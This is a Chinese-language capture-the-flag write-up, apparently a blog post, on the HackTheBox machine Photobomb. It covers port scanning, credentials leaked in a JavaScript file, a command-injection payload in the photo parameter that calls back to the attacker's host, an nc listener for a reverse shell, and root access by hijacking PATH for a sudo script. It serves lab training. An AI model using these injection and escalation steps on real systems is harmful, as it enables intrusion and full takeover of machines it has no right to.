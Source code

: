 ﻿![在这里插入图片描述](https://img-blog.csdnimg.cn/4ccb52be1cc14159be62eb5fe2cc1f7a.png)
题目网址：
```
https://app.hackthebox.com/machines/Photobomb
```
# 枚举
使用nmap枚举靶机
```
nmap -sC -sV -p- 10.10.11.182
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/30c5b678a1cd4876996c5a0d33c1ef88.png)

这里发现了域名，我们本地dns解析一下
```
echo "10.10.11.182 photobomb.htb" >> /etc/hosts
```
![**加粗样式**](https://img-blog.csdnimg.cn/f3507b96758a40c0b510d03549db7718.png)

然后就是常规的枚举网站子域名，网站目录，查找网站框架的漏洞什么的，这些我都做了，但是没什么突破点，只能去网页上看看了

![在这里插入图片描述](https://img-blog.csdnimg.cn/66e63f05c2fb40ff89684405b434ea75.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/80a8b978b27e41f8a9aaee130d42a451.png)

点击后会让我们输入账号和密码

查看了一下网站源码，发现有一个js文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/52dfc1b460d14230b1bf9eeed70ed2d0.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/f2fb2ac7cc0d4ea88ebcbd7029adb77e.png)

点击跳转

![在这里插入图片描述](https://img-blog.csdnimg.cn/09f7cee0a100481fba2724ef84d20060.png)

这个文件是刚刚登录框的js文件，这里应该是账号和密码，然后返回登录

![在这里插入图片描述](https://img-blog.csdnimg.cn/38560a28674d46e8a6eae013fbdb123d.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/9deb76760fc047999b2a0d34cd90b65a.png)
# 命令注入与远程代码执行

登录后可以下载一些图片，然后就没其他的了，我们使用burp抓一下下载的包

![在这里插入图片描述](https://img-blog.csdnimg.cn/f079cdbd8089442491a433f6f0fe55e9.png)

ctrl+r

![在这里插入图片描述](https://img-blog.csdnimg.cn/519218a6a7e24d4a868aebb5e1ef9e98.png)

现在就是测试参数有没有命令注入的漏洞，开启python http
```
python3 -m http.server 80
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/456f9db760944699a151ccaeed61a786.png)

然后回到burp里测试参数，photo和dimensions都没有，在测试到filetype参数的时候就有突破点了

```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg;curl+10.10.14.8&filetype=jpg&dimensions=3000x2000
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/1eb3b8378b19434aa3324efc11d6fdc1.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/74a26d96d20347318d870529c8035259.png)

kali收到靶机发出的访问信息，现在我们就该反弹shell了
# 获取用户权限
这里推荐这个网站，可以生成很多的反弹shell
```
https://www.revshells.com/
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/8e9e4816b93248d3a709f29633c142e0.png)

我们使用这个payload，空格都替换为+

![在这里插入图片描述](https://img-blog.csdnimg.cn/1445bbe85f8e4a1191f4d9549c74f9bb.png)

然后kali使用nc监听指定的端口
```
nc -nvlp 5555
```
然后发送payload

![在这里插入图片描述](https://img-blog.csdnimg.cn/a419a0df57364cb987b2b5745ce97365.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/f2d380215b754656a60e45dbdbec8e42.png)

成功获得用户权限
# 环境变量提权
查看当前用户可以用sudo执行什么东西
```
sudo -l
```


![在这里插入图片描述](https://img-blog.csdnimg.cn/96d7a912800e4131ba1da4fffca085ec.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/d7b09b2b95124a1eb02787a5dfde3639.png)
```
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
这只是个bash脚本，功能是获取日志文件并将其内容移动到photobomb.log.old然后使用truncate清除photobomb.log

最关键的地方就是最后一行的这个命令，他find使用的是相对路径，而不是绝对路径，也就是说，我们改变一下环境变量，然后在当前目录创建一个find文件，里面写一个shell，之后用sudo执行的时候，就能直接获得root权限

```
echo "/bin/bash" > find
chmod +x find 
sudo PATH=$PWD:$PATH /opt/cleanup.sh   //更改环境变量为当前目录
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f2e4d2c279744b3494819f0589a448a7.png)

成功获得root权限

![在这里插入图片描述](https://img-blog.csdnimg.cn/6c1a15315cfc47b6b97ebcddbd05a663.png)

